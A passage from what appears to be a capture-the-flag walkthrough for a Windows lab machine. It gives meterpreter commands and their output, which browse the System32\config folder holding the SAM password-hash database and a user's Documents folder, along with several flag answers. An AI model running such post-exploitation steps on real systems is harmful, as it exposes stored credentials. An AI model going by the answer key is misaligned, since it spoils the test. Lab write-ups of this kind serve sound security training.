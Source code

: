 **Answer:** **flag{access_the_machine}**

### Flag 2: Password Storage

Navigate to where Windows stores password hashes in the SAM database:

```bash
cd C:\Windows\System32\config
dir
cat flag2.txt
```

**Output:**
```
meterpreter > cd C:\Windows\System32\config
meterpreter > dir
Listing: C:\Windows\System32\config
===================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100666/rw-rw-rw-  28672     fil   2018-12-12 22:00:40 -0500  BCD-Template
100666/rw-rw-rw-  25600     fil   2018-12-12 22:00:40 -0500  BCD-Template.LOG
100666/rw-rw-rw-  18087936  fil   2024-01-15 10:28:43 -0500  COMPONENTS
100666/rw-rw-rw-  1024      fil   2018-12-12 22:00:40 -0500  COMPONENTS.LOG
100666/rw-rw-rw-  262144    fil   2018-12-12 22:00:40 -0500  DEFAULT
100666/rw-rw-rw-  1024      fil   2018-12-12 22:00:40 -0500  DEFAULT.LOG
100777/rwxrwxrwx  34        fil   2018-12-13 03:50:12 -0500  flag2.txt
100666/rw-rw-rw-  262144    fil   2018-12-12 22:00:40 -0500  SAM
100666/rw-rw-rw-  1024      fil   2018-12-12 22:00:40 -0500  SAM.LOG
100666/rw-rw-rw-  262144    fil   2018-12-12 22:00:40 -0500  SECURITY
100666/rw-rw-rw-  1024      fil   2018-12-12 22:00:40 -0500  SECURITY.LOG
100666/rw-rw-rw-  40632320  fil   2024-01-15 10:28:44 -0500  SOFTWARE
100666/rw-rw-rw-  1024      fil   2018-12-12 22:00:40 -0500  SOFTWARE.LOG
100666/rw-rw-rw-  12582912  fil   2024-01-15 10:28:44 -0500  SYSTEM
100666/rw-rw-rw-  1024      fil   2018-12-12 22:00:40 -0500  SYSTEM.LOG

meterpreter > cat flag2.txt
flag{sam_database_elevated_access}
```

**Answer:** **flag{sam_database_elevated_access}**

### Flag 3: Administrator's Documents

Check the Administrator's Documents folder. Since Jon appears to be an administrator, let's try his Documents folder:

```bash
cd C:\Users\Jon\Documents
dir
cat flag3.txt
```

**Output:**
```
meterpreter > cd C:\Users\Jon\Documents
meterpreter > dir
Listing: C:\Users\Jon\Documents
================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:31 -0500  My Music
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:31 -0500  My Pictures
40777/rwxrwxrwx   0     dir   2018-12-12 22:13:31 -0500  My Videos
100666/rw-rw-rw-  37    fil   2018-12-13 03:50:30 -0500  flag3.txt

```